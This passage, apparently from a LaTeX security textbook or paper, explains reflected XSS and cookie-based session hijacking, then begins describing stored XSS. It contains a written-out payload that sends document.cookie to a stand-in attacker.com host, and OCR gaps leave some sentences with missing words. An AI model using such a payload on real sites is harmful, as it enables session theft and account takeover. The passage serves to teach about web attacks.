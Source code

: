 The  example demonstrates script execution, but a more impactful attack involves stealing the victim's session cookie.

\begin{enumerate}
    \item \textit{Attacker's Payload}: The attacker crafts a URL like: \texttt{http://example.com/search?q uery=<script>document.location='http://attacker.com/steal?cookie='+document \\.cookie</script>}
    \item \textit{Luring and Execution}:

          \begin{itemize}
              \item The victim clicks this link.
              \item The vulnerable application reflects the script into the page.
              \item The victim's browser executes this script.
              \item {} accesses the victim's session cookie for .
              \item {} redirects the victim's browser to the attacker's server, appending the stolen cookie to the URL as parameter.
          \end{itemize}

    \item \textit{Session Hijacking}: The attacker's web page () receives the request containing the victim's cookie. With this cookie, the attacker can then use it to impersonate the victim and hijack their session on  without needing their username or password. This allows the attacker to access the victim's account and perform actions as them.
\end{enumerate}

\paragraph{Stored XSS.} In a Stored XSS attack, the objective is to persistently inject a malicious script into a web application's data storage, so that it's delivered to and executed by multiple users over time. This type of attack is particularly potent in applications that allow user interaction and publicly display the input, such as comment sections, user profiles, forums, or review pages. The attack typically unfolds as follows:

